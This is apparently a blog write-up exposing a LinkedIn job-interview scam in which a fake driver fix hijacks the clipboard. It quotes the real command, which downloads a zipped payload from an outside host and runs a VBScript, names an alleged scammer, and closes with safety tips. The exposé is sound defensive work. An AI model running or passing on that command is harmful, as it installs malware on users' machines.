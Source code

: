 You see the "Need to keep the drivers to up-to-date!"?

THAT'S A BIG FAT NO-NO for anyone reading this to open a terminal and run some command. I'm looking for all the ways that command is malicious, and it doesn't quite stand out to me yet. Looking for some naughty business in the "download.microsoft.com" and can't see any immediately.

**I copy the "legitimate" command and paste it into a text editor...**

**💥 BOOM! 💥**

**Here's what actually got copied:**

`curl -k -o "%TEMP%\fixed.zip" "https://auto-ai.online/cam-v-257.fix" && powershell -Command "Expand-Archive -Force -Path '%TEMP%\fixed.zip' -DestinationPath '%TEMP%\fixed'" && wscript "%TEMP%\fixed\update.vbs"`

Now that my friends, looks sus af 🚨.

That's the scam. A clipboard hijack to "fix your drivers" which would download a zipped payload from a remote server auto-ai.online and run on your machine. 

If you want to get into the weeds of what the actual attack might be, then read on below in the [Technical Details](#technical-details)

# Final Words

As of now the profile of our LinkedIn Premium member / aspiring scammer [Aftab Habib](https://www.linkedin.com/in/aftab-habib-965479297/) is still up. I presume he'll block me immediately upon seeing this. I plan to report his profile to LinkedIn, report to [Galaxy Digital](https://www.linkedin.com/company/galaxyhq) that there are scammers impersonating their staff (doubt it'll be news to them, however). Lastly, I plan to report his bogus registrations to Hostinger see how they respond.

If you can think of anything else I should be doing, please do let me know! I really wish I could've scheduled a video call with Aftab to have a lovely chat about his operation.

Now if you've read this far, read this section too:

# How To Keep Yourself Safe

This is some general advise I can give you that would be relevant in any online interaction nowadays:

- NEVER copy/paste commands from anyone. Period. If you must, type it in after you thoroughly inspect it. Also running it through an LLM would be a good idea to make sure you didn't miss anything.
- If someone is reaching out to you on an open platform like LinkedIn or X where any monkey can open an account, only respond if they're able to email you from a legitimate corporate email account. Email headers are spoofable as well, but it's a bit more difficult and would be almost impossible to have a back and forth conversation via email.
- Use reputable job platforms and verify company legitimacy. Check the company's website for the actual opening instead of accepting documents or job postings in messages.
- Be extremely suspicious of "driver updates" or "software installations" during interviews. Read a cautionary tale [here](https://slowmist.medium.com/seeing-is-deceiving-analysis-of-fake-zoom-meeting-phishing-attack-3b0138e13e49).

"Hacking" used to be predominantly finding vulnerabilities in servers or locally accessible mal-configured devices. Now it seems that social engineering is a huge part of the attack surface. I am generally super paranoid, but I can see that with some more sophistication even I could've possibly slipped at some point. Especially now as audio/video can be faked with AI you need to be super suspicious of interaction even with people you think you know.
